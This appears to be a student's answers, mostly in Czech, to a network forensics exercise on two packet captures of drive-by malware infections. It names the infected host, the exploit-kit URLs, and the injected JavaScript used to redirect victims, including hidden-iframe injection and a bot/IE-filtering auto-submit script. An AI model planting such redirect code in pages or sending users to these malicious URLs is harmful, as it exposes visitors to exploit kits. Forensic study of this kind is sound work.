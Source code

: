 # Zadání první části – soubor uloha1.pcap

### 1. Jaká je IP adresa stanice, která byla infikována?

```
127.80.179.181
```

### 2. Jaký prohlížeč infikovaná stanice používala?

Internet Explorer 8.0

User-Agent:
```
Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
```

### 3. Jaká je URL, ze které byl exploit stažen?

```
http://static.this-is-not-a-botnet.com/3h251q2c35
```

### 4. Jaká je URL webové stránky, ze které se stanice dostala na URL s exploitem?

```
http://akronkappas.com//d2a42e1f7d9a1021bd7d93af414c95c4.php?q=70a9b40eb73da11445c3a3609c8241d9
```

### 5. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

```
<a id='myLink' href='http://static.this-is-not-a-botnet.com/3h251q2c35'>click</a><script>document.getElementById('myLink').click();</script>
```

# Zadání druhé části – soubor uloha2.pcap

### 1. Která URL adresa (uveďte alespoň doménu) způsobila infekci stanice?

```
http://tyu.benme.com/%3fct=Vivaldi&biw=Vivaldi.95ec76.406i7c5k7&oq=h8fItKeRVawGyjRaFcw1nyYdeAwgQ8_qtiEKBzBKfgZ6D-hyMZAh1z6LRVvQ42w&tuif=2320&q=wH7QMvXcJwDNFYbGMvrER6NbNknQA0KPxpH2_drZdZqxKGni2Ob5UUSk6FqCEh3&yus=Vivaldi.114tq57
```

### 2. Jak se uživatel dostal na danou doménu?

`http://retrotip.visionurbana.com.ve/dle_js.js`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```

### 3. Samotný malware je uložen na jiné (externí) URL adrese. Jaká je to adresa?

```
http://p27dokhpz2n7nvgr.1jw2lx.top/EE7E-AD39-7D8C-080C-18BF?iframe&_=1485557725652
```

### 4. Jakým způsobem došlo k přesměrování na externí URL se škodlivým kódem?

`http://retrotip.visionurbana.com.ve/dle_js.js`

```
document.write('<div class="" style="position:absolute; width:383px; height:368px; left:17px; top:-858px;">  <div  style="" class=""><a>head</a><a class="head-menu-2"> </a><iframe src="http://tyu.benme.com/?q=zn_QMvXcJwDQDofGMvrESLtEMUbQA0KK2OH_76iyEoH9JHT1vrTUSkrttgWC&biw=Amaya.81lp85.406f4y5l9&oq=elTX_fUlL7ABPAuy2EyALQZnlY0IU1IQ8fj630PWwUWZ0pDRqx29UToBvdeW&yus=Amaya.110oz60.406a7e5q8&br_fl=4109&tuif=5364&ct=Amaya" width=290 height=257 ></ifr' +'ame> <a style=""></a></div><a class="" style="">temp</a></div>');
```

alebo

```
var NormalURL = 'http://tyu.benme.com/?oq=CEh3h8_svK7pSP1LgiRbVcgU3n45bWw8S_6qviBCBmBWUhcSHrxLeNwt1z6I&q=wH7QMvXcJwDIFYbGMvrETKNbNknQA06PxpH2_drZdZqxKGni0ub5UUSk6Fy&tuif=5921&br_fl=5828&biw=Vivaldi.82ss74.406q9e2t1&yus=Vivaldi.80lf74.406f5d1w2&ct=Vivaldi';


function start() {
	BrowserInfo = getBrowser();

	if(BrowserInfo.is_bot == true) {
		document.write('');		
			} else {
      if(BrowserInfo.browser_real=='ie') {
		    window.frames[0].document.body.innerHTML = '<form target="_parent" method="post" action="'+NormalURL+'"></form>'; 
		    window.frames[0].document.forms[0].submit();
      }
	}
	
}
```
